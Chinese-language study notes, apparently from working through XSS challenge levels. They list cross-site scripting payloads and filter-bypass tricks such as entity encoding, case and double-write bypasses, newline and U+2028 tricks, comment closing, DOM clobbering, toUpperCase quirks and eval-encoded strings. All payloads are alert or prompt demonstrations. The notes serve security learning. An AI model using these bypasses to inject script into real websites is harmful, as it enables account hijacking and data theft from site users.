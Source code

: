 [TOC]

# XSS-EASY

## 语句

* 可以进行直接跳转的语句

  ```html
  <script>alert(1)</script>
  <a href=javascript:alert(1)>111</a>
  <input value="1" type="button" onclick="alert(1)">
  <input value="1" type="button" onclick=alert(1)> // 这个到底加不加引号...（加上肯定可以）
  <img src=ssss.ss onerror=alert(1)>
  <iframe src=11 onload=alert(1)>
  <iframe src=11 onmouseover=alert(1)>
  <svg onload=alert(1)>
  ```

* 包含跳转

  ```html
  <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
  ```

  如level15用到的

  ```html
  https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
  ```

## 绕过

* 如果源码自带引号

  * 需要使用引号（区分单双引号）进行闭合，还要闭合尖括号

  > 题目源码上用的双引号，但是又把双引号给实体化了，那就应该没有办法闭合了
  >
  > * 也许`%0d`跳到下一行？
  > * 也许可以尝试不闭合，直接在当前标签里面加内容，但是如果是value="xxx"，那也没有用

* 如果过滤了某个关键词

  * 将关键词某个地方添加下划线（更改关键词）
    * 换另外的关键词用
    * 使用命名实体绕过，如`s`可以写成`&#083;` `&#115;`
    * 大小写绕过

  * 将关键词置为空
    * 可以考虑大小写绕过
    * 可以双写绕过
    * 命名实体绕过
    * 换关键词

* 过滤空格
  
  可以考虑`%0a` `%0d`绕过，这种建议在地址栏输入
  
* 过滤了`<` `>`
  
  可以尝试用onclick在原本的标签里添加(因为不能添加标签了)
  
* 检测传上去的是否包含某个关键词

  * 可以将关键词放后面，然后注释掉，如需要`http://`关键词：

    ```
    java&#083;cript:alert(1) // http://
    ```

* 回显部分被隐藏，如`type="hidden"`
  * 在传输的时候，将type更改成可视，如`type="button"`，这个需要onclick等配合
  * 或者添加参数：onload，onerror，onmouseover等
* 网页显示图片的某个信息
  
* 更改图片的信息，造成XSS漏洞
  
* 找不到传输的地方？
  * user-agent
  * cookie
  * referer
  * ...

## 知识链接

1.  [命名实体](https://www.jb51.net/onlineread/htmlchar.htm) (非特殊字符转义后变成 `&#[ASCII码];`）

2.  [html标签](https://www.runoob.com/tags/html-reference.html)
3.  [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

# XSS-MEDIUM

## 知识点
* 正则表达式
        [正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)
        [正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)
        [正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

* `<script>`标签不饿能自动闭合

   > `<script>`标签必须要闭合，否则js代码不能执行
   > 只有img， input， link， hr，video，audio能自动闭合

* `__proto__`
    每个对象都会在内部初始化这个属性
    当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

* replace()特性

    <img src="XSS-summarize.assets/image-20201121001528627.png" alt="image-20201121001528627" style="zoom:50%;" />

    ```
    >'11223344'.replace('2',"test")
    "11test23344"
    >'11223344'.replace('2',"$`test")
    "1111test23344"
    >'11223344'.replace('2',"$'test")
    "1123344test23344"
    >'11223344'.replace('2',"$&test")
    "112test23344"
    ```

## 绕过

* 空格被置为空

    `(`将其实例化`&#40;` `&#040;`，还需要`<svg>`等标签将其反实例化。

    ```html
    <svg><script>alert&#40;1)</script>
    ```

* `->`被过滤，无法闭合注释。

    可以尝试使用`--!>`来闭合`<!--`
    
* 过滤了一般注释 如过滤了`<!--` 和`//`

    可以使用 `-->` 来注释

* 换行 (`\r` `\n`)被过滤，又必须要换行的时候（如绕过单行注释）

    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  

    使用方法：先用url编码写进burp，然后在burp里面进行url解码

    <img src="XSS-summarize.assets/burp%E8%BD%AC%E7%A0%81.png" alt="burp" style="zoom:50%;" />

* 过滤`on`开头`=`结尾，如`onclick=`

    因为等号的缘故，可以用空格换行等来绕过

    ```
    onclick
    =
    ```

* 检测`document`的某个元素

  可以用另一个元素进行重名覆盖，将input的name改成action，name的action就覆盖了document的action。

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();
</script>
<!-- payload: javascript:prompt(1)#{"action":"111"} -->
```

* 每一段有字符限制，无法构造完整payload

    ```html
    // payload
    // 在标签里面不能注释，如果标签确实差了一些字符，见第一条
    // 关键词不能用注释分开
    // 括号里可以注释
    // 关键词和后面的括号可以用注释分开
    "><svg a=
    /*
    <!--
    ```

* toUpperCase()

    这个时候一些函数因为被大写了，无法使用，可以尝试使用`src=` 这个参数，去包含自己的hack.js(文件名记得大写)

    这个函数还有一个bug， 就是`ſ`经过toUpperCase()之后会被转换成`s`，可以当`s`被过滤的时候来使用

* 当几乎所有的特殊字符都被过滤（包括`=`），但没有过滤`"` 和`()`

    这个时候可以使用`in`运算符

    >在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。
    >
    >```
    >"(prompt(1))instanceof"
    >"(prompt(1))in"
    >```

* 当你的payload直接被加在`<script>`标签里面的时候，又被屏蔽了关键字

    可以采用编解码加eval的方式在过滤，如：

    ```html
    <script> eval((1354620604).toString(35))(1) </script>
    <!-- <script> prompt(1)</script> -->
    ```

